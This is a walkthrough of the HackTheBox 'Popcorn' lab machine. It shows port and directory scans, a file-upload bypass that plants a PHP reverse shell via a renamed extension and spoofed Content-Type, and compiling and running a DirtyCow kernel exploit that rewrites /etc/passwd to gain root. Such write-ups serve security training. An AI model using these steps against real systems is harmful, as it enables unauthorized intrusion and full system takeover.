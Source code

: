 ```yaml
---
layout: post
title:  "HackTheBox - Popcorn"
date:   2021-08-04 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
/.htpasswd            (Status: 403) [Size: 287]
/.hta                 (Status: 403) [Size: 282]
/.htaccess            (Status: 403) [Size: 287]
/cgi-bin/             (Status: 403) [Size: 286]
/index                (Status: 200) [Size: 177]
/index.html           (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47032]
Progress: 4082 / 4615 (88.45%)                  [ERROR] 2021/08/04 00:50:59 [!] Get "http://10.10.10.6/server-status": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
```
# FOOTHOLD

Visiting torrent we see that it is a torrent hoster site so we register ourselves and login . This bog was very useful in exploiting it.
[Blog Link](https://infinitelogins.com/2020/08/07/file-upload-bypass-techniques/)

So according to this blog after uploading the torrent we edit it and upload a screenshot. I upload a php reverse shell (renamed it from shell.php to shell.png.php) and I intercepted the request using Burpsuite and changed Content-Type header to image/jpeg and forwarded the request. It shows that it has been uploaded successfully.

After that we visit /torrent/uploads and click on our php file to get a reverse shell as www-data. User flag is in /home/george/user.txt

# PRIVILEGE ESCALATION

Run the command :

```
uname -r
```
and we see that it is running on linux 2.6.31 

Searching for an exploit via searchsploit we come across many exploits of dirtycow . So even though I was pretty sure that it was unintended I decided to give it a try ( one of my friends had said just a few days earlier that dirtycow exploit and the recent 2021 sudo exploit will run on most machines , so frankly decided to test his words )

[DirtyCow](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

So I uploaded the C file to the machine via python server and compiled it:

```s
www-data@popcorn:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/tmp$ ./dirty mango
./dirty mango
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: mango
Complete line:
firefart:fip9QGsrAJUWg:0:0:pwned:/root:/bin/bash

mmap: b7881000
```

After this unfortunately my (not stabilised) reverse shell got stuck so I had to ssh as user firefart and get the root.txt


